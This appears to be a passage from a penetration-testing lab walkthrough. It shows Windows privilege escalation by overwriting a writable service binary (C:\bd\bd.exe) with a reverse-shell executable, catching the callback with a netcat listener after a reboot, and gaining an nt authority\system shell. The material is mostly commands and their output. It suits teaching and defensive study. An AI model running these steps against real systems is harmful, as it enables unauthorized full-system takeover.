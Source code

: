 ```bash
icacls C:\bd
C:\bd BUILTIN\Administrators:(I)(OI)(CI)(F)
      NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
      BUILTIN\Users:(I)(OI)(CI)(RX)
      NT AUTHORITY\Authenticated Users:(I)(M)
      NT AUTHORITY\Authenticated Users:(I)(OI)(CI)(IO)(M)

Successfully processed 1 files; Failed processing 0 files

C:\bd>icacls C:\bd\bd.exe
icacls C:\bd\bd.exe
C:\bd\bd.exe BUILTIN\Administrators:(I)(F)
             NT AUTHORITY\SYSTEM:(I)(F)
             BUILTIN\Users:(I)(RX)
             NT AUTHORITY\Authenticated Users:(I)(M)

Successfully processed 1 files; Failed processing 0 files

C:\bd>

We’ll reuse our reverse shell payload file (reverse.exe) and save it as bd.exe. First, we’ll back up the original binary:

C:\bd>move bd.exe bd.exe.bak
move bd.exe bd.exe.bak
        1 file(s) moved.

We can now safely copy our reverse shell as C:\bd\bd.exe.

C:\bd>copy C:\xampp\htdocs\reverse.exe bd.exe
copy C:\xampp\htdocs\reverse.exe bd.exe
        1 file(s) copied.

Let’s restart our Netcat listener on the same port.

kali@kali:~$ nc -lvnp 30021                        
listening on [any] 30021 ...

Now all we have to do is reboot the target machine:

C:\bd> shutdown /r 
C:\bd>

kali@kali:~$

After the reboot, our malicious copy of bd.exe is executed, and we are presented with a full system shell:

kali@kali:~$ nc -lvnp 30021                        
listening on [any] 30021 ...
connect to [192.168.118.8] from (UNKNOWN) [192.168.120.132] 49669
Microsoft Windows [Version 10.0.18363.1139]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32> C:\Windows\system32>whoami
whoami
nt authority\system
```
